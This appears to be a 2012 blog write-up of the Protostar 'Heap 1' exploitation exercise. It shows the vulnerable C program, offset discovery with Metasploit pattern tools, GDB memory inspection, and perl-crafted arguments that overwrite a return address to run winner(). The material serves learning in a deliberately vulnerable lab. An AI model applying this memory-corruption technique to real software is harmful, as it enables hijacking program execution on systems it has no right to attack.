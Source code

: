 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 1"
date: "2012-01-12T18:28:00-05:00"
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


[This](http://exploit-exercises.com/protostar/heap1) challenge was different for me. The previous heap challenge was easy to pretend it was just a simple stack overflow.  This one worked very different, and brought some different challenges with it. 

<!-- more -->

You first start out with the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
 int priority;
 char *name;
};

void winner()
{
 printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
 struct internet *i1, *i2, *i3;

 i1 = malloc(sizeof(struct internet));
 i1->priority = 1;
 i1->name = malloc(8);

 i2 = malloc(sizeof(struct internet));
 i2->priority = 2;
 i2->name = malloc(8);

 strcpy(i1->name, argv[1]);
 strcpy(i2->name, argv[2]);

 printf("and that's a wrap folks!\n");
}
```

It's quite easy to see where the heap overflow would occur.  The code is allocating 8 bytes of space for the "name" field in memory.  However, it's never checking if the arguments are over 8 bytes long. 

After tinkering for a bit, I found that if you passed strings that were too long, you could get strcpy to try overwriting other memory spaces than it was supposed to.  GDB would fail on the lines of strcpy with weird addresses.  So I started there. 

First, I figured I needed to know the offset for the first argument, to know which exact byte it was using as a copy destination.  Just like in stack overflows, I used the [Metasploit Framework](http://www.metasploit.com) to generate a unique string: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then fed that string into the first argument, and passed a test value of "BBBBBBBB" as the second argument. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB
Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x37614136 <Address 0x37614136 out of bounds>,
    src=0xbffff99e "BBBBBBBB") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

I used the [Metasploit Framework](http://www.metasploit.com) again to get me the offset using the value in the strcpy dest field. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37614136
20
```

So what I had learned here, is if I overflowed the "name" field of the struct with 20 bytes instead of 8, I could then control the destination of the copy for the second strcpy command.  It would copy whatever the second argument was, into any memory space I wanted.  But I needed to control flow of the program to get "winner()" to execute.  Somehow I needed to get the address of "winner()" into the EIP.  My thought on that, was that since when you call a program or function, it puts the return address in the stack, that maybe I could overwrite that return address, and instead of exiting gracefully (because it was the main function), it would put my address into the EIP and run it.  The first step with that was finding the location of that return address in the stack. 

I added a breakpoint to the main function, so I could get the initial memory values once inside that function. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) break main
Breakpoint 1 at 0x80484c2: file heap1/heap1.c, line 23.
```

I then ran the program with dummy data, which made me hit my breakpoint. 

```
(gdb) run asdf asdf
Starting program: /opt/protostar/bin/heap1 asdf asdf

Breakpoint 1, main (argc=3, argv=0xbffff864) at heap1/heap1.c:23
23      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
```

From this point, I wanted to look at all the registers, but focus in on the esp and ebp. 

```
(gdb) i r
eax            0xbffff864       -1073743772
ecx            0x7825cdc2       2015743426
edx            0x3      3
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0xbffff7b8       0xbffff7b8
esi            0x0      0
edi            0x0      0
eip            0x80484c2        0x80484c2 <main+9>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

The important parts here, are that the top of the stack is at 0xbffff790 and the bottom at 0xbffff7b8.  So I pulled up all the memory inbetween those two addresses.  I expected to see 0x00000000 at the end, to signify that it was the end of the function.  And in the addresses before that, one would be the return address. 

```
(gdb) x/10x $esp
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048580      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804858b      0xb7fd7ff4
0xbffff7b0:     0x08048580      0x00000000
```

For now, I removed my original breakpoint, so that execution wouldn't get paused. 

```
(gdb) delete 1
```

I played around with the different addresses in this 0xbffff790-0xbffff7b8 range, and found the address 0xbffff7ac to work out. 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
and that's a wrap folks!

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

So it appears that it wasn't the byte right before the 0x00000000, but was actually 2 bytes before it.  I was now controlling the EIP.  The last step would be to find the address of the winner() function, to get it called. 

```
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
```

This was fairly trivial to do.  So I built up the string with the proper return address and winner() address: 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and that's a wrap folks!
and we have a winner @ 1326098464

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

It looks like it did execute winner() successfully.  It may not have ended the program properly, but we got our execution.  Just to make sure that it'd work outside of gdb, I tried it again on the direct program. 

```
user@protostar:/opt/protostar/bin$ ./heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and we have a winner @ 1326098505
Segmentation fault
```

There you have it.  The execution was changed to execute where originally not intended.
